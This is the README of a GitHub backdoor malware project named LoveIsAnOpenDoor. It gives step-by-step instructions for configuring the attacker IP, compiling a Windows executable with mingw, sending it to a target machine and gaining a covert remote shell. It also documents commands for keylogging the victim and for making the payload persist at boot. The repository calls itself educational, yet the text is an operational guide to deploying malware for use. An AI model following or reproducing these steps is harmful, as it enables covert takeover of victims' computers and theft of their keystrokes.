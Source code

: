 # LoveIsAnOpenDoor Malware (BackDoor)


## Getting Started
LoveIsAnOpenDoor is currently developing malware can be used in both Windows, Linux. It can be executed on both 32 and 64-bits systems. After it is executed, it creates connection between attacker and target machine and provides attacker to get control of target systems command line without knowledge of the victim.


### Prerequisites
Two machines; an attacker and a target.

### Installation
Note: You will only need .c files, other files will be recompiled for you attacker machine. 
So instead of downloading those file follow the following steps.
- Replace your attacker machine's IP address in LoveIsAnOpenDoor.c and Server.c 
For the Malware ;
```
ServIP = "ENTER ATTACKER MACHINE IP ADDRES SHERE" ; 
ServPort = 50005 ; 
```
For the Server;
```
server_address.sin_addr.s_addr = inet_addr("ENTER ATTACKER MACHINE IP ADDRES SHERE");
server_address.sin_port = htons(50005);
```
- Install ming into you attacker device 
	```
	apt-get install mingw64 
	```
- Use following command to compile the Server
	```
	gcc Server.c -o Server 
	```
- Use following command to compile the exe file. 
	```
	i686-w64-mingw32-gcc -o LoveIsAnOpenDoor.exe LoveIsAnOpenDoor.c -lwsock32 -lwininet 
	```
- Send the compiled LoveIsAnOpenDoor.exe to target machine  (Already sent)
- Start Server by using 
	```
	./Server
	```
- Execute exe file in target machine.
- Check for if shell is opened in attacker machine.

## Basic Usage 
If shell is opened you can start executing codes in target machine on your backdoor.
Try whoami, ls etc commands.

	```
	whoami 
	netstat
	dir
	```
## Keylogging
Use following command to start keylogger in target system. It will create a file named windows in the desktop of the target device and holds each key pressed. Hence this software is only for educational purpose, those files are not hidden in the system.
```
start_keylog	
```
## Persistance
Gain persistance on the remote system by executing payload in boot time by using following command
```
persist
```
## Demonstration
Checkout the Demonstration.mp4, can be found in current repository. In demonstration, used Kali Linux machine as attacker and Flare as target machine to be able to examine the malware code in target machine.



## Authors

* **Özlem Körpe** - *Initial work* - [ozlemkorpe](https://github.com/ozlemkorpe)
